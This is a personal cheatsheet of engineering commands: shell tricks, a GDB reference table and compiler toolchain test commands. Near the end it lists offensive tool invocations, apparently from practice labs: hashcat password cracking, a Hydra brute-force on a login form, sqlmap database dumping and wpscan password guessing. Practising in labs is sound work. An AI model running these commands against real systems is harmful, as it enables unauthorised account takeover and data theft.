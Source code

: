 ```yaml
---
title: "Useful Commands Dump"
tags:
  - work/engineer-training 
  - help
type: cheatsheet
---
```

# Useful Commands Dump
---
Well... where I dump any useful commands I find and them hopefully I'll categorise them... eventually...

## Terminal
* Change file extension of all files:
```bash
for file in *.txt; do mv "$file" "${file%.txt}.md"; done
```

* If Git is hanging after total is because:
```bash
git config --global http.postBuffer 157286400
```

- Run previous argument:

```bash
!$
```

## GDB
| Command                      | Description                                                      |
| ---------------------------- | ---------------------------------------------------------------- |
| `gdb --args <binary> <args>` | Start the program with an argument list.                         |
| `b FileName:linenum`         | For setting a breakpoint.                                        |
| `bt`                         | For getting backtrace.                                           |
| `thread apply all bt`        | For getting the backtrace of all threads.                        |
| `p variableName`             | For printing the value of a variable/object.                     |
| `up`                         | For going up the stack frame.                                    |
| `down`                       | For going down the stack frame.                                  |
| `l`                          | For listing source lines of code around the current stack frame. |
| `disassemble`                | For showing the assembly code of the current function.           |
| `n`                          | For executing the next source instruction.                       |
| `si`                         | For executing the next machine instruction.                      |
| `q`                          | To quit the debugger.                                            |
| `r`                          | To run the program.                                              |

The docs are [here](https://www.gnu.org/software/gdb/documentation/).
More info on [GDB](notes/private/work/gdb.md).

## The dump of dumps

### BSC/Tiger related
```bash
runtest --tool=gcc --tool_exec=bsc-elf-clang  --tool_opts= --directory=${HOME}/tiger/gcc-for-llvm-testing/gcc/testsuite/gcc.target --srcdir=${HOME}/tiger/gcc-for-llvm-testing/gcc/testsuite --target_board=bsc-embdebug --target=bsc-elf "bsc.exp=bsc/or.c"
```

```bash
export PATH=${HOME}/riscv32-clang-gcc-testing/install/bin:$PATH
export BSC_TIMEOUT=300
export BSC_TRIPLE=bsc-elf
export BSC_SIM_COMMAND=bsc-run
export BSC_SIM_FLAGS=
export DEJAGNU=${HOME}/tiger/toolchain/site.exp
export TOOLDIR=${HOME}/tiger/toolchain/
```

```bash
bsc-elf-gdb -ex 'target remote | embdebug --soname bsc --stdin' -ex 'break exit' -ex 'break abort' test2.exe
```

```bash
llvm-objdump -d <testobject>
```

```bash
bsc-run --max-steps=200 --trace-inst --trace-regs --trace-stack ds.exe 2>&1 | tee output.txt
```

```bash
pietraferreira@tom:~/insn-test-tiger$ bsc-elf-gdb -ex 'target remote | embdebug --soname bsc --stdin' -ex 'break exit' -ex 'break abort' sub.exe
```

Ask the front end to produce unoptimised LLVM IR:
```bash
bsc-elf-clang -Wall -O0 -S -emit-llvm --target=bsc 20180309-1.c -o 20180309-1.ll
```

Compile but stop at assembly:
```bash
llc --debug -mtriple=bsc 20180309-1.ll -o 20180309-1.s
```

```bash
llvm-objdump -d sim-test.exe
```

```bash
bsc-elf-gdb sim-test.exe -ex "target remote | embdebug --soname sysc-bsc --vcd=trace-do --debug=0x00070000 --clk-mhz=1 --sim-cycles=10000 --stdin" -ex load -ex c -ex detach -ex quit 2>&1 | tee sim-test.log
```

## Website URL Fix
```bash
grep -rl 'notes/images' . | sort | uniq | xargs perl -e "s/assets/assets\/engineer-training/" -pi
```

## Hashcat
```bash
hashcat -m 1000 pass.txt ../Desktop/rockyou.txt
```

## Hydra
```bash
hydra -l admin -P ../Desktop/rockyou.txt 10.10.187.151 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=iL08cD6b3clJctyo0KNeEsuXx9w7SrkAtggDy0m16fdgDu1lU1uuo3uh6%2FRluRbkD9GutlhMGTHkzw5TKQ%2BHgSoGVo73vHE7yAY2Vsky3EyktnYS%2BIy0jb68wZvhEHGpOLmwYsk3M7NnT45B%2B2jaDdrRfwr94Ks2d1VIKp2LvcNs%2F6rd&__EVENTVALIDATION=5N%2Bcad1wYajo0H2m7Bq3nlBqYeKcha9MeicRSms1xOrJ8b9v%2FiDF9nj6Kge38NGN6KBMhWEtiNyCZFWTMItDUQu34YiMN8vVxQv6lQEgBw5RWhtEihlALnJsM5gAhf89mlKiwmAbHq2Lz0jR30paNwnGrt5M%2Fwj7m6oohs8%2F8JQKoaoM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv
```

## SQLmap
```bash
sqlmap -r request.txt --dbms=mysql --dump
```

## Wordpress
Enumeration:

```bash
wpscan --url 10.10.101.40/blog
```

Look for vulnerable plugins and usernames:

```bash
wpscan --url 10.10.101.40/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

## Git
```bash
--ff-only
```
